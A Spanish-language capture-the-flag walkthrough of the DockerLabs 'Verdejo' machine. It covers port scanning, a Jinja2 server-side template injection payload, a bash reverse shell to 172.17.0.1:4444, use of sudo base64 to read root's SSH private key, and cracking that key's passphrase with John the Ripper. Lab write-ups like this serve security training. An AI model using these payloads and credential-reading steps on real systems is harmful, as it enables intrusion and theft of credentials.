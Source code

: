```yaml
---
title: Verdejo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | The Hackers Labs        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/52adb1eb-cff8-4d4e-a4a8-de78bddd1615)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `8089` (Que servicio es)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,8089 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/e6b57a30-2b81-4d4f-b542-464e63077507)

# Exploración Web
En el puerto `80`, encontramos la página por defecto de Apache sin ninguna información aparente. Procedemos a un escaneo de directorios con Gobuster para buscar rutas ocultas en el sitio web:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/70c4ecce-ca0a-4d06-ad25-df06f798536e)

No encontramos nada en el puerto `80`. Al acceder al puerto `8089`, descubrimos un panel que permite ejecutar entradas del usuario:

![image](https://github.com/user-attachments/assets/bdf26108-2443-4cf4-a84f-ecfaeb317c61)

El servicio en el puerto 8089 parece vulnerable a SSTI (Server-Side Template Injection), una vulnerabilidad en la cual el motor de plantillas interpreta los datos del usuario de forma insegura, permitiendo la ejecución de comandos. Comprobamos esta vulnerabilidad con la ayuda de [HacTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

![image](https://github.com/user-attachments/assets/d8d32cff-03e2-4689-b6e0-b7fe78a84038)

Confirmamos que el servicio está usando el motor de plantillas `Jinja2` al ejecutar el siguiente payload:

![image](https://github.com/user-attachments/assets/e20d1cce-a914-4853-aa3b-0619ce37793a)
```url
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

# ReverseShell

Generamos una reverse shell usando el siguiente comando:

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```

Simultáneamente, escuchamos en nuestro sistema con `netcat`:
```bash
nc -lvnp 4444 
```

# Intrusion

Conseguimos acceso al sistema como el usuario `verde`.

![image](https://github.com/user-attachments/assets/0ff21c80-8adb-4e33-9a2a-1745f392917e)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios
Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `base64` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/63317767-ddae-4a03-b9ea-cde31b348add)

Dado que el puerto `22` (SSH) está abierto, intentamos leer el archivo` id_rsa` de root:
```bash
LFILE=/root/.ssh/id_rsa 
sudo -u root /usr/bin/base64 "$LFILE" | base64 --decode
```
![image](https://github.com/user-attachments/assets/8c502e29-b772-4250-8916-03aa633b3b70)

Transferimos el archivo a nuestro equipo y tratamos de conectarnos por SSH, pero se nos solicita una contraseña.

![image](https://github.com/user-attachments/assets/8ce2c627-762f-4ba1-935b-7297e15df618)

## Fuerza Bruta de la Passphrase

Vamos a hacer fuerza bruta a ver si esta la contraseña, para ello haremos lo siguiente:

Convertimos el archivo `id_rsa` a hash:
```bash
ssh2john id_rsa > hash
```

Crackeamos el hash con **John the Ripper** usando el diccionario `rockyou.txt`
```bash
sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Obtenemos la contraseña `honda1`.

![image](https://github.com/user-attachments/assets/98107efa-16bb-4552-b479-0427fe3c7b86)

Ahora podemos acceder como root vía SSH:

![image](https://github.com/user-attachments/assets/cc2c4a79-c58e-45eb-95dc-6793cf3836f9)

Finalmente, tenemos acceso root.











